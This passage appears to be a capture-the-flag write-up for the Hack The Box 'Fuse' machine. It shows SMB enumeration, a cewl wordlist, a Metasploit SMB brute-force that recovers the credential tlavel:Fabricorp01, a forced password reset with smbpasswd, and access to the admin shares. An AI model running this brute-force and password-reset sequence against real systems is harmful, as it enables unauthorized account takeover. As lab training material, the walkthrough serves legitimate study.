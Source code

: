 we have smb service is open is used for file sharing on networked computers to talk to each other,
let's see if anonymous login allowed after add fuse.htb to /etc/hosts

```shell
ezi0x00@kali:~/HTB/Fuse$ smbclient -L fuse.htb

Enter WORKGROUP\roots password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```
anonymous login allowed,but nothing there.
but we have users.txt We may need passwords and do smb bruteforce
the best way to generate passwords used cawl 

```shell
ezi0x00@kali:~/HTB/Fuse$ cewl -m5 -d5 -w passwords http://fuse.fabricorp.local /papercut/logs/html/index.htm --with-numbers
```
with usernames and passwords in hand try burteforcing SMB by Metasploit or crackmapexec
i will use Metasploit

```shell
msf5 > use auxiliary/scanner/smb/smb_login                                                                    
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE passwords                                 
pass_file => wordlist
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt 
USER_file => users.txt   
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS fuse.htb                                                                                          
RHOSTS => fuse.htb                                                                                                                    
msf5 auxiliary(scanner/smb/smb_login) >    
msf5 auxiliary(scanner/smb/smb_login) > exploit
```
After a long time we had that result:
```shell
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
```
so let's login with this user tlavel password Fabricorp01
```shell
ezi0x00@kali:~/HTB/Fuse$ smbclient -L fuse.htb -U tlavel 
Enter WORKGROUP\tlavel's password: 
session setup failed: STATUS_PASSWORD_MUST_CHANGE
```
logging in says password must change, To solve this problem we must use smbpasswd to change smb password,
and we will do it with tlavel.

```shell
ezi0x00@kali:~/HTB/Fuse$ smbpasswd -r fuse.htb -U tlavel
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel on fuse.htb.
```
Next login smb again with tlavel and new password then we can successfully access to it.
```shell
ezi0x00@kali:~/HTB/Fuse$ smbclient -L fuse.htb -U tlavel
Enter WORKGROUP\tlavels password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
```